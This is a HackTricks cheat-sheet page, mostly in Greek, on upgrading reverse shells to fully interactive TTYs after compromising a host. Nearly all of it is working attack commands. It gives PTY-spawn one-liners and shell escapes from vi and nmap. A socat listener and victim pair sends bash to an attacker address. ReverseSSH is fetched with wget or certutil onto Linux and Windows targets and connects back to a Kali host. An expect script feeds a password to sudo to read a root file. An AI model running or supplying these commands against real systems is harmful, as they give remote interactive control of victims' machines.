 # Full TTYs

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Full TTY

Σημειώστε ότι το shell που ορίζετε στη μεταβλητή `SHELL` **πρέπει** να είναι **καταχωρημένο μέσα** _**/etc/shells**_ ή `Η τιμή για τη μεταβλητή SHELL δεν βρέθηκε στο αρχείο /etc/shells. Αυτό το περιστατικό έχει αναφερθεί`. Επίσης, σημειώστε ότι τα επόμενα αποσπάσματα λειτουργούν μόνο σε bash. Αν βρίσκεστε σε zsh, αλλάξτε σε bash πριν αποκτήσετε το shell εκτελώντας `bash`.

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
Μπορείτε να αποκτήσετε τον **αριθμό** των **γραμμών** και **στηλών** εκτελώντας **`stty -a`**
{% endhint %}

#### script

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **Spawn shells**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

Ένας βολικός τρόπος για **interactive shell access**, καθώς και **file transfers** και **port forwarding**, είναι η τοποθέτηση του στατικά συνδεδεμένου ssh server [ReverseSSH](https://github.com/Fahrj/reverse-ssh) στον στόχο.

Παρακάτω είναι ένα παράδειγμα για `x86` με upx-compressed binaries. Για άλλα binaries, ελέγξτε τη [σελίδα εκδόσεων](https://github.com/Fahrj/reverse-ssh/releases/latest/).

1. Ετοιμάστε τοπικά για να πιάσετε το αίτημα port forwarding του ssh:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) Στόχος Linux:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Στόχος Windows 10 (για παλαιότερες εκδόσεις, ελέγξτε το [project readme](https://github.com/Fahrj/reverse-ssh#features)):

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
{% endcode %}

* Αν το αίτημα προώθησης θύρας ReverseSSH ήταν επιτυχές, θα πρέπει τώρα να μπορείτε να συνδεθείτε με τον προεπιλεγμένο κωδικό πρόσβασης `letmeinbrudipls` στο πλαίσιο του χρήστη που εκτελεί το `reverse-ssh(.exe)`:
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## Penelope

Η Penelope (https://github.com/brightio/penelope) αναβαθμίζει αυτόματα τα Linux reverse shells σε TTY, διαχειρίζεται το μέγεθος του τερματικού, καταγράφει τα πάντα και πολλά άλλα. Επίσης, παρέχει υποστήριξη readline για Windows shells.

![penelope](https://github.com/user-attachments/assets/27ab4b3a-780c-4c07-a855-fd80a194c01e)

## No TTY

Αν για κάποιο λόγο δεν μπορείτε να αποκτήσετε ένα πλήρες TTY, **μπορείτε ακόμα να αλληλεπιδράσετε με προγράμματα** που περιμένουν είσοδο από τον χρήστη. Στο παρακάτω παράδειγμα, ο κωδικός πρόσβασης περνάει στο `sudo` για να διαβάσει ένα αρχείο:
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

